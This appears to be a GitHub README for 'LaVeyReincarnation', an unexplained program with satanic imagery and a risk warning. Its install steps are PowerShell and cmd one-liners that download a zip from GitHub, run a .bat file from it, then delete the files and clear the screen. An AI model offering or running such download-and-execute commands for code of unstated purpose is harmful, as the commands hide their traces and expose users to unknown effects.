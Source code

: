 


<h1>LaVeyReincarnation</h1>

<img align="right" width="320" height="320" src="https://upload.wikimedia.org/wikipedia/commons/0/09/Baphosimb.svg">
<p align="center">
Climbing deep into your Wurlitzer<br>
gathering sins to the nest<br>
lost conscience of the apprizer<br>
boiling hatred in a pest
</p>

<br>

```diff
- 🔴Proceede at own risk❗
```

<h3>Installation</h3>
<p>
All installations methods have the same result, more or less.
  <ol>
    <li>
      <details>
      <summary>Downloading the file from github<summary>
      </details>
    </li>
    <li>Activating the .bat file which *installs* the program</li>
    <li>Removing remaining file.</li>
  </ol>
</p>

**No admin needed**
* **Wihtout** dependencies

<blockquote>

<details>
  <summary>PowerShell</summary>
  
  * Run:
    ```powershell
    $w=$home
    $u="https://github.com/3lv/a/archive/a.zip"
    $z="$w\a.zip"
    $d="$w\a\"
    (New-Object System.Net.WebClient).DownloadFile($u,$z)
    Expand-Archive $z $d -F
    cd $d\..
    .\a\a-a\a.bat
    Remove-Item $z,$d -R -Fo
    cls
    ```
</details>

<details>
  <summary>PowerShell 1 line</summary>
  
  * Run:
    ```powershell
    $w=$home;$u="https://github.com/3lv/a/archive/a.zip";$z="$w\a.zip";$d="$w\a\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -Fo;cls
    ```
</details>

<details>
  <summary>Command Prompt 1 line</summary>
  
  * Run:
    ```powershell
    powershell -c "& {$w=$home;$u='https://github.com/3lv/a/archive/a.zip';$z=\"$w\a.zip\";$d=\"$w\a\\\";(New-Object System.Net.WebClient).DownloadFile($u,$z);Expand-Archive $z $d -F;cd $d\..;.\a\a-a\a.bat;Remove-Item $z,$d -R -Fo;cls}"
    ```
</details>

</blockquote>

* **With** dependencies

<blockquote>

<details>
  <summary>git (requires git)</summary>
  
  * Run:
    ```powershell
    git clone https://github.com/3lv/a -q
    .\a\a.bat
    rmdir /s /q ".\a\"
    ```
</details>

</blockquote>

<br>

<h3>Possible errors</h3>

> If directory "a" already exists, commands may result in a hidden error
> 
> Use the following to remove "a":
>
> <code>rmdir /s /q ".\a\"</code>

